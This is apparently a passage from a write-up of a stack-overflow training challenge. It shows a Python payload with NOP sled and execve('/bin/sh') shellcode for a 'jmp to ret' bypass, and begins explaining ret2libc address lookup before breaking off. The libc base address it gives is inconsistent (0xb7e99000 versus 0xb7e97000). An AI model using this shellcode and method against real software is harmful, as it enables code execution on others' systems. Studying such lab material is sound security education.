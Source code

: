 in this program it prevents us from jumping to any address in the stack as an example of non executable stack kanari, NX bit, DEP, ASLR... so we must jump to another addr out of the stack.

### jmp to ret again

the trick on this techinque is to jump to ret agin which means that the `0x080484f9 <getpath+117>:  ret` instruction will pop the top of the stack again to `EIP`
the stack will looks like:
| Stack          |
| -------------- |
| .........      |
| 0x080484f9     |
| evil code addr |
| evil code      |
| .........      |

```py
import struct
BOF = 80*"A"
ret=struct.pack("I",0x080484f9)
jmpaddr=struct.pack("I",0xbffff7f0)
nope = 100*"\x90";
shell ="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
print BOF + ret + jmpaddr + nope + shell
```

### ret2libc

on this technique we will make our jmp addr the `system('/bin/sh')` function this built-in function in normal usage called with with one string argument the program instructions in normal case of call system() be like this :
| stack                  |
| ---------------------- |
| .........              |
| ret addr from system() |
| '/bin/sh'              |
| .........              |
so we will make the stack looks like this but we need the addr of `system()` and an addr to the string`'/bin/sh'` and return addr dosent matter we don't need to return :)

- we can get the system addr from `libc` which standard library that linked to any executable binary and by using `$ ldd ./stack6` we can see the linked system libraries and by getting the addr of `/lib/libc.so.6 (0xb7e99000)`
- by using `gdb> print system` we can get the addr of system fun `{<text variable, no debug info>} 0xb7ecffb0 <__libc_system>`
- by using command `$ strings -a -t x /lib/libc.so.6 |grep /bin/sh` we now have the offset with hex of the string */bin/sh* in libc  `0x11f3bf:/bin/sh` by adding the offset to libc addr we now have the real address of the string in memory `'/bin/sh' addr = 0xb7e97000+0x11f3bf`
- `system addr = 0xb7ecffb0` , `'/bin/sh' addr = 0xb7e97000+0x11f3bf`time to write our magical exploit
